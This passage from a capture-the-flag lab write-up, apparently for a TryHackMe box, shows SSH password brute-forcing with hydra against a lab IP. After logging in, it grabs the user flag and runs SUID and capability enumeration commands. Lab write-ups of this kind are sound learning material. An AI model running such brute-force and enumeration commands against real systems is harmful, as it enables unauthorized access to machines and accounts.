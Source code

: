 Given that I'm thinking that we should try and brute force our way in via ssh with the user name we found on the task list file using the wordlist from the other txt file.

<br>

## System Access

I use hydra with these 2 pieces of information and find their password pretty quickly:

`hydra -l <REDACTED> -P locks.txt $ip ssh`

```
22][ssh] host: 10.10.221.149   login: <REDACTED>   password: <REDACTED>
```

That answers both what service you can brute force and the users password questions.

I SSH over:

```
The authenticity of host '10.10.221.149 (10.10.221.149)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.221.149' (ED25519) to the list of known hosts.
lin@10.10.221.149's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
<REDACTED>@bountyhacker:~/Desktop$
```

<br>

## System Enumeration

Looking in our home directory we find the user.txt flag waiting for us:

```
THM{<REDACTED>}
```

Doing a search for SUID files with `find / -perm /4000 2>/dev/null` doesn't show anything out of the ordinary.

Running a recursive search for files with capabilities with `getcap -r / 2>/dev/null` doesn't give us anything useful either.

Other than root we're the only user on the system with a login shell defined.
